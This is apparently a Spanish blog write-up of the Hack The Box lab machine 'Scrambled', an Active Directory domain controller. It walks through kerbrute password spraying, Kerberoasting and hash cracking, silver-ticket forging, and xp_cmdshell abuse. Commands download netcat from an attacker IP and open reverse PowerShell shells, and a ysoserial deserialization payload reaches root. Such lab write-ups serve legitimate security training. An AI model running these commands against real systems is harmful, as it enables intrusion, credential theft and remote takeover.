 ```yaml
---
layout: post
title: "Write Up Scrambled."
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Windows,Ldap,SMB,Cracking,Hashes,Ysoserial,ASREPRoasting,BloodHound,RCE,RCP,EvilWinRM,SMB,Active-Directory,Network,Vulnerability-Assessment,Active-Directory,Source-Code-Analysis,Reversing,IIS,NET,Kerberos,WinRM,MSSQL,dnspy,Impacket,Python,SQL,C#,Configuration-Analysis,Binary-Analysis,Password-Cracking,Kerberoasting,Kerberos-Abuse,Decompilation,Clear-Text-Credentials,Deserialization,Information-Disclosure,Default-Credentials,Misconfiguration,Sensitive-Data-Exposure,OSCP,OSEP,eWPTxv2]
image:
  path: /assets/img/scrambled/Captura%20de%20pantalla%20(200).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.11.168 -oG allports
```


### Services and Versions


```bash
nmap -sCV -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389,49667,49669,49670,49686,49690,54769 10.10.11.168 -oN target
```

![list](/assets/img/scrambled/Kali-2022-09-06-13-51-23.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis and Explotation


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros, con todos esos puetos abiertos es pisible asumir que estamos frente a un `Domain Controler`  probamos crackmapexec , smbclient y smbmap ,etc y nada por lo visto por ahi no va la resolucion de la maquina e investigamos el servicio http que corre en el pueto 80, podemos usar `wapalizzer` para ver que tecnologias usa la pagina asi como desde el terminal `whatweb` al hacer `crtl+ u` no encontramos nada. 


![list](/assets/img/scrambled/Kali-2022-09-06-13-47-25.png){:.lead width="800" height="100" loading="lazy"}


Del escaneo de versiones encontramos el nombre del equipo y el dominio DC1.scrm.local y lo metemos en el /etc/host.


Enumerando la web nos encontramos algunos usuarios loas vamos a  guardar en un archivo usernames.txt  que luego vamos a validar con kerbrute ya que tenemos el puerto 88 abierto.


![list](/assets/img/scrambled/Kali-2022-09-06-13-48-17.png){:.lead width="800" height="100" loading="lazy"}


```bash
kerbrute userenum -d scrm.local --dc dc1.scrm.local usernames.txt
```


{:.note}
Los usuarios validos son `ASMITH@scrm.local`,`KSIMPSON@scrm.local`,`SJENKINS@scrm.local`,`JHALL@scrm.local`,`KHICKS@scrm.local`.


Obtenemos algunos usuarios validos, de ellos ksimpson usa su usuario como contraseña.


```bash
kerbrute passwordspray -d scrm.local --dc dc1.scrm.local users.txt ksimpson
```


{:.note}
La contraseña es valida para el usuario`KSIMPSON@scrm.local`.


Nos aseguramos con crackmapexec ya que es una mala practica reutilizar el usuario en la contraseña.


```bash
crackmapexec smb 10.10.11.168 -u KSIMPSON@scrm.local -p 'ksimpson'
```


{:.note}
Con estas credenciales solicitaremos un ticket para después autenticarnos con kerberos.


Tratamos de ver si podemos ejecutar la vunnerabilidad de ASROAST Attack pero no podemos asi que vamos a probar otras cosas.


```bash
GetNPUsers.py scrm.local/ksimpson:ksimpson 
```


Tambien tratamos de ejecutar la vulnerabilidad kerberoasting Attack pero no podemos asi que vamos a probar otras cosas.


```bash
GetUserSPNs scrm.local/ksimpson:ksimpson -dc-ip dc1.scrm.local -request -k -no-pass
```


{:.note}
Vemos el hash  que guardamos en archivo llamado hash.


Intentaremos crackear y tambien debemos estar sicronizados con la maquina victima en funcion de la hora.


```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```


{:.note}
La contraseña es `Pegasus60`.


Ya que tenemos la contraseña vamos  a solicitar un ticket granting ticket,


```bash
getTGT.py scrm.local/sqlsvc:Pegasus60
```


{:.note}
Debemos exportar la variable de entorno.


```bash
export KRB5CCNAME=sqlsvc.ccache
```


{:.note}
Y ahora con mssqlclient.py.


```bash
impacket-mssqlclient dc1.scrm.local -k -no-pass
```


{:.note}
Pero no funciona.


Con secretsdump en modo debug podemos obtener el sid del dominio.


```bash
impacket-secretsdump -k scrm.local/ksimpson@dc1.scrm.local -no-pass -debug
```


{:.note}
El SID es `S-1-5-21-2743207045-1827831105-2542523200-500`.


Con ayuda de [codebeautify] podemos convertir la contraseña a un hash ntlm.


[codebeautify](https://codebeautify.org/ntlm-hash-generator)


![list](/assets/img/scrambled/Kali-2022-09-06-14-47-04.png){:.lead width="800" height="100" loading="lazy"}


Podemos obtener un ticket con la información que tenemos esta vez para el usuario sqlsvc


```bash
impacket-ticketer -domain scrm.local -spn MSSQLSVC/dc1.scrm.local -user-id 500 Administrator -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200
```


Con este ticket podemos autenticarnos a sql con mssqlclient.


```bash
export KRB5CCNAME=Administrator.ccache
```


{:.note}
Ahora probamos con `Administrator`.



```bash
impacket-mssqlclient dc1.scrm.local -k -no-pass
```


{:.note}
Y nos conectamos al servicio de microsoft SQL.


![list](/assets/img/scrambled/Kali-2022-09-06-14-51-24.png){:.lead width="800" height="100" loading="lazy"}


Mirando el contenido de la base de datos nos conectamos a `ScrambleHR` y ejecutamos los siguientes comandos para ejecutar un comado.


```bash
use ScrambleHR
```


```bash
select * from UserImport
```


{:.note}
El usuario es `MiscSvc` la pass `ScrambledEggs9900`  y el `scrm.local` es el dominio.


```bash
enable_xp_cmdshell
```



```bash
xp_cmdshell whoami
```


Ahora podemos compartir y traer netcat de nuestro equipo para obtener una powershell.



```bash
xp_cmdshell curl 10.10.14.10/netcat.exe -o C:\Temp\netcat.exe
```


Debemos de una ves traernos el netcat.


```bash
xp_cmdshell C:\Temp\netcat.exe -e powershell 10.10.14.10 443
```


Nos ejecutamos una reverse-shel y nos ponemos a la escucha netcat  `nc -lvnp 443`.


Con powershell podemos usar las credenciales que encontramos antes para ejecutar comandos que son para pivotiar del usuario `sqlsvc` a `MiscSvc`.


```powershell
$SecPassword = ConvertTo-SecureString 'ScrambledEggs9900' -AsPlainText -Force
```


```powershell
$Cred = New-Object System.Management.Automation.PSCredential('Scrm\MiscSvc', $SecPassword)
```


```powershell
Invoke-Command -Computer dc1 -Credential $Cred -Command { whoami }
```


Ahora podemos enviarnos una powershell y conseguir la flag del usuario.


```powershell
Invoke-Command -Computer dc1 -Credential $Cred -Command { cmd /c C:\Temp\netcat.exe -e powershell 10.10.14.10 443 }
```


{:.note}
Nos ponemos a la escucha con netcat `nc -lvnp 443`.


```powershell
type ..\Desktop\user.txt
```


{:.note}
Ya vemos la flag


![list](/assets/img/scrambled/Kali-2022-09-06-15-15-24.png){:.lead width="800" height="100" loading="lazy"}


## Escalation Privileges


Siempre es bueno ejecutar `WimEnum` Y `ADEnum` para monitorizar y ver los posibles vectores para escalar de privilegios.


Encontramos un directorio con un ScrambleLib.dll y un ScrambleClient, y parece que es lo que corre en el puerto 4411.


![list](/assets/img/scrambled/Kali-2022-09-06-15-18-54.png){:.lead width="800" height="100" loading="lazy"}


Encontramos en la funcion UploadOrder una deserialización que podemos explotar, con ayuda de [ysoserial] en un windows crearemos una data que nos envie una powershell.


[ysoserial](https://github.com/pwntester/ysoserial.net)


```powershell
.\ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "C:\Temp\netcat.exe -e powershell 10.10.14.10 443"
```


El servidor nos responde con un ouput que debemos que aplicarle un tratamiento a este lo guardamos en un archivo.


```powershell
netcat 10.10.11.168 4411
```


{:.note}
Tratamos de entabalr un aconecion con la maquina victima pero el output le borramos la cabecera que nos dio el server y le ponemos `UPLOAD_ORDER` y lo enviamos porsupuesto debemos estar a  la escucha con netcat `nc -lvnp 443`.


{:.note}
Con el comando `type C:\Users\Administrator\Desktop\root.txt` ya vemos la flag de root.

***
```bash
🎉 Felicitaciones ya has comprometido Scrambled de Hack The Box. 🎉
```
{:.centered}
***
Back to [Certification eWJPTXv2](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSEP](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}